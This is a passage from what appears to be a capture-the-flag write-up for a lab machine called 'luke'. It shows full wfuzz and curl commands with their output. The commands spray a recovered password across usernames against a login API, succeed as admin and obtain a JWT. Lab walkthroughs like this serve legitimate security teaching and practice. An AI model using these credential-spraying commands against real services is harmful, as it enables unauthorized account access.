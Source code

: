 
{% include image.html image_alt="fb72caea.png" image_src="/008e4109-e6ea-4533-bdac-e3b6fc65b663/fb72caea.png" %}


There are two interesting endpoints: `login` and `users`, found through directory enumeration.

_`login`_


{% include image.html image_alt="2962cad1.png" image_src="/008e4109-e6ea-4533-bdac-e3b6fc65b663/2962cad1.png" %}


_`users`_


{% include image.html image_alt="88ce89ac.png" image_src="/008e4109-e6ea-4533-bdac-e3b6fc65b663/88ce89ac.png" %}


Now that we got `Zk6heYCyv6ZE9Xcg` as password, let's use `wfuzz` as a cracker of sorts and see if we can proceed further with `3000/tcp`.

```
# wfuzz -w users.txt -d '{"username":"FUZZ","password":"Zk6heYCyv6ZE9Xcg"}' -H "Content-Type: application/json" http://luke:3000/login                                       
********************************************************
* Wfuzz 2.2.1 - The Web Fuzzer                           *
********************************************************

Target: HTTP://luke:3000/login
Total requests: 8

==================================================================
ID      Response   Lines      Word         Chars          Request
==================================================================

00007:  C=403      0 L         1 W            9 Ch        "administrator"
00008:  C=403      0 L         1 W            9 Ch        "root"
00001:  C=403      0 L         1 W            9 Ch        "chihiro"
00002:  C=403      0 L         1 W            9 Ch        "Chihiro"
00003:  C=403      0 L         1 W            9 Ch        "derry"
00004:  C=403      0 L         1 W            9 Ch        "Derry"
00005:  C=200      0 L         2 W          219 Ch        "admin"
00006:  C=403      0 L         1 W            9 Ch        "guest"

Total time: 0.612439
Processed Requests: 8
Filtered Requests: 0
Requests/sec.: 13.06250
```

Awesome. We have a hit with `admin` as the username.

```
# curl -i -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' -H "Content-Type: application/json" http://luke:3000/login
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 219
ETag: W/"db-1BiQjPHn0LbIIGnMLSY47tA3+6c"
Date: Sun, 02 Jun 2019 09:05:54 GMT
Connection: keep-alive

{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5NDY2MzU0LCJleHAiOjE1NTk1NTI3NTR9.VKf4PAy6kRXwCYUVUoat4Heq0FRlcG3Bw2_oiL_067A"}
```

